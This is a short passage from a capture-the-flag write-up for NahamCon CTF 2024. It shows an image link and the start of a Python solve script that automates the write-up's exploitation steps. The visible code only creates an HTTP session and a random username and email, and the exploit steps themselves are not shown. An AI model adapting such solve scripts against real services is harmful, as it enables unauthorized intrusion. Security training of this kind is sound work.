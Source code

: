 ![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-CTF-2024/images/Pasted%20image%2020240528154821.png)

**To get the flag, I wrote a solve script to automate all the above exploitation steps:**
```python
#!/usr/bin/env python3
import requests
import random
from string import ascii_lowercase

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.session = requests.Session()
        self.username = ''.join(random.choice(ascii_lowercase) for i in range(10)) # generate 10 characters random username
        self.email = ''.join(random.choice(ascii_lowercase) for i in range(10)) + '@test.local' # generate random email address
```